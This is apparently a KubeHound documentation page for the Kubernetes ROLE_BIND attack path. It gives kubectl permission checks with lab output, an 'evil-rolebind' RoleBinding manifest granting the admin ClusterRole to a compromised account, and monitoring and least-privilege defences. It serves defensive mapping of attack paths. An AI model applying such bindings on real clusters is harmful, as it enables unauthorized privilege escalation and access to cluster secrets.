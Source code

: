 ```yaml
---
title: ROLE_BIND
---
```


<!--
id: ROLE_BIND
name: "Create role binding"
mitreAttackTechnique: T1078 - Valid Accounts
mitreAttackTactic: TA0004 - Privilege Escalation
-->


# ROLE_BIND

A role that grants permission to create or modify `(Cluster)RoleBindings` can allow an attacker to escalate privileges on a compromised user.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [PermissionSet](../entities/permissionset.md)  | [PermissionSet](../entities/permissionset.md) | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

## Details

An attacker with sufficient permission can create a `RoleBinding` with the default existing admin `ClusterRole` and bind it to a compromised user. By creating this `RoleBinding`, the compromised user becomes highly privileged, and can execute privileged operations in the cluster (reading secrets, creating pods, etc.).

## Prerequisites

Ability to interact with the K8s API with a role allowing modify or create access to `(Cluster)RoleBindings`.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/ROLE_BIND.yaml).

## Checks

Install kubectl (for ARM):

```bash
apt update && apt install -y curl && curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/arm64/kubectl" && chmod +x kubectl
```

```bash
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl auth can-i create clusterrolebindin
Warning: resource 'clusterrolebindings' is not namespace scoped in group 'rbac.authorization.k8s.io'

yes
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl auth can-i bind clusterrole
Warning: resource 'clusterroles' is not namespace scoped in group 'rbac.authorization.k8s.io'

yes
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl create clusterrolebinding rolebindadmin --clusterrole=cluster-admin --serviceaccount=default:rolebind-sa-rb-r-crb-cr-fail
error: failed to create clusterrolebinding: clusterrolebindings.rbac.authorization.k8s.io is forbidden: User "system:serviceaccount:default:rolebind-sa-rb-r-crb-cr-fail" cannot create resource "clusterrolebindings" in API group "rbac.authorization.k8s.io" at the cluster scope
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl create clusterrolebinding rolebindadmin --clusterrole=cluster-admin --serviceaccount=default:rolebind-sa-rb-r-crb-cr-fail -n default
error: failed to create clusterrolebinding: clusterrolebindings.rbac.authorization.k8s.io is forbidden: User "system:serviceaccount:default:rolebind-sa-rb-r-crb-cr-fail" cannot create resource "clusterrolebindings" in API group "rbac.authorization.k8s.io" at the cluster scope
```

Simply ask kubectl:

```bash
kubectl auth can-i create rolebinding
kubectl auth can-i bind role
```

## Exploitation

Create the `(Cluster)RoleBinding` definition as below:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: evil-rolebind
  namespace: default
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: admin
subjects:
  - kind: ServiceAccount
    name: <compromised user>
    namespace: default
```

Create the binding via kubectl:

```bash
kubebctl apply -f evil-rolebind-spec.yaml
```

## Defences

### Monitoring

+ Monitor anomalous access to the K8s authorization API including creating privileged `(Cluster)RoleBinding` from with a pod, unusual `User-Agent` headers and other outliers.

### Implement least privilege access

Creating `(Cluster)RoleBinding` is a very powerful privilege and should not be required by the majority of users. Use an automated tool such a KubeHound to search for any risky permissions and users in the cluster and look to eliminate them.

## Calculation

+ [RoleBind](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind.go)
+ [RoleBindNamespace](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind_namespace.go)

## References:

+ [Official Kubernetes Documentation:Using RBAC Authorization](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#rolebinding-and-clusterrolebinding)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)
+ [Getting into a bind with Kubernetes](https://raesene.github.io/blog/2021/01/16/Getting-Into-A-Bind-with-Kubernetes/)
+ [Official Kubernetes Documentation: Bind verb](https://kubernetes.io/docs/concepts/security/rbac-good-practices/#bind-verb)
